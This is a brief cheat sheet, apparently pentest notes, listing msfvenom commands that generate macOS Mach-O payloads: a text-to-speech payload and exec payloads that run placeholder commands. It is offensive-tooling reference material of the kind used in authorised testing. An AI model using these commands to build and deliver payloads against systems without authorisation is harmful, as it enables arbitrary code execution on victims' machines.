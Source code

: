 # Exec Payloads

## Text-To-Speech OSX Exec Payload

```
$ msfvenom -p osx/x64/say text=<message> -f macho -o speak-x64
```

## Execute OSX Exec Payload

```
$ msfvenom -p osx/x86/exec cmd="<commands>" -f macho -o exec-cmd-x86

$ msfvenom -p osx/x64/exec cmd="<commands>" -f macho -o exec-cmd-x64
```